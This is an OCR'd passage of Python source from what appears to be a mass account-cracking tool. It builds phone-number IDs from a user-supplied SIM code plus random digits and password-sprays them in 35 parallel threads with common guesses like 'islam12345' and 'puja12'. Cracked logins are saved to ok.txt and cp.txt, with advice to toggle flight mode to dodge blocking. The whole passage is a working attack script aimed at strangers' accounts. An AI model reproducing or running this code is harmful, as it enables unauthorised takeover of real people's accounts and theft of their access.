 		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode,'free fire','bangladish','freefire']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[✓] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#___
def bd3():
	uid=[]
	os.system('clear')
	print(logo)
	print('[√] EXAMPLE : 88***,88***,88***,.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode,'puja12','islam12345','islam1122']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[✓] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#___
def chos():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print('\x1b[1;91m[+] See Not : Use Your Sim Code ')
    linex()
    code = input(' Your Code : ')
    linex()
    os.system('clear')
    print(logo)
    print('[+] Example : 1000,5000,10000,****Etc')
    linex()
    limit = int(input('[+] Idz lemit :  '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)